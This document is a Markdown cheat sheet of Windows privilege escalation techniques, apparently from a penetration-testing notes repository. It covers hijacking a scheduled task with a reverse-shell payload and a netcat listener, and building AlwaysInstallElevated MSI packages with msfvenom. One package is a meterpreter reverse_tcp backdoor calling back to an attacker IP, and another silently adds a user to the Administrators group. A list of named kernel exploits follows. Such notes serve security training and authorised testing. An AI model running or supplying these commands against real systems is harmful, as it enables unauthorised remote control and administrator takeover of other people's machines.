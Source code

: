 ## Windows PE methods
1. Scheduled Task/Job
- Detection 1: WinPEAS (under scheduled task), ensure that `scheduled task state = enabled` and `schedule type = daily` and `repeat every = 5 min` e.g.)
- Detection 2: `schtasks /query /fo LIST /v`, ensure that `scheduled task state = enabled` and `schedule type = daily` and 'repeat every = 5 min` e.g.)
- Exploitation: Replace the file found in "Task to Run" with reverse shell payload using `echo path_to_shell >> path_to_scheduled_script`, while setting up nc listener on kali. 
- Exploitation on (Windows 2000, XP, or 2003), we can try creating a New Scheduled Task

2. AlwaysInstallElevated (method 1 - via .msi payload)
- Detection: AlwaysInstalledElevated Policy must be enabled in the Computer Configuration and User Configuration folders of the Local Group Policy editor. run `cmd.exe /c 'systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"'` to know the architecture of OS before crafting 1.msi
- Exploitation: First, generate 1.msi a.k.a backdoor
```bash
# on kali
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4567 -f msi > /root/Desktop/1.msi
upload /root/Desktop/1.msi .
nc -nvlp 4567

#on victim
msiexec /quiet /qn /i 1.msi 
```

```backdoor or 1.msi
to be inserted
```

2. AlwaysInstallElevated (method 2 - Adding user in Administrators Group)
- Detecton: `net user` to find a non-admin user in Local Users group that you want to PE
```bash
#on kali
msfvenom -p windows/exec CMD='net localgroup administrators raaz /add' -f msi > /root/Desktop/2.msi
upload /root/Desktop/2.msi .

#on victim
shell
msiexec /quiet /qn /i 2.msi
net user [username]
```

3. Windows Kernel Exploit
- Detection: `./windows-exploit-suggester.py --database 2020-04-17-mssb.xls --systeminfo sysinfo.txt`
- Windows ClientCopyImage Win32k Exploit
- Windows TrackPopupMenu Win32k NULL Pointer Dereference
- Windows SYSTEM Escalation via KiTrap0D
- Windows Escalate Task Scheduler XML Privilege Escalation
- MS16-016 mrxdav.sys WebDav Local Privilege Escalation
- EPATHOBJ::pprFlattenRec Local Privilege Escalation
- MS13-053: NTUserMessageCall Win32k Kernel Pool Overflow
- MS16-032 Secondary Logon Handle Privilege Escalation
- RottenPotato
- ...
